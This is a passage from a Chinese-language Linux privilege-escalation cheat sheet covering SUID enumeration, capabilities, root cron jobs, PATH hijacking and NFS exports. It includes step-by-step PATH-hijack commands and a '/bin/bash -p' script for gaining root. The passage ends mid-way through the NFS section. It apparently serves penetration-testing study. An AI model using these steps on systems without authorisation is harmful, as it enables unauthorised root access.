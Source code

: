 # 5，SUID

列出设置了 SUID 或 SGID 位的文件
> find / -type f -perm -04000 -ls 2>/dev/null


# 6，Capabilities(能力)

列出已启用的功能
> getcap -r / 2>/dev/null

注意这个值：```cap_setuid```

根据显示的功能到[gtfobins](https://gtfobins.github.io/)查找对应的```Capabilities```的提权方法


# 7，Cron

思路：
如果有一个以 root 权限运行的计划任务，并且我们可以更改将要运行的脚本，那么我们的脚本将以 root 权限运行

查看Cron任务：
> /etc/crontab

# 8，PATH

路径提权需要结合SUID进行

## 步骤

1. 查看当前环境变量PATH：
> echo $PATH

2. 查找系统可写文件夹以便加入到$PATH（一般选择/tmp或者当前用户家目录）
> find / -writable 2>/dev/null

3. 把某个目录加入到$PATH
> export PATH=/tmp:$PATH

4. 把下面shell写进需要劫持的命令：
```
#!/bin/bash
/bin/bash -p
```

5. 执行劫持的命令，，获得root权限

# 9，NFS

## 思路
1. NFS（网络文件共享）配置保存在 ```/etc/exports``` 文件中。该文件是在 NFS 服务器安装期间创建的，通常可以由用户读取
查看：
> cat  /etc/exports
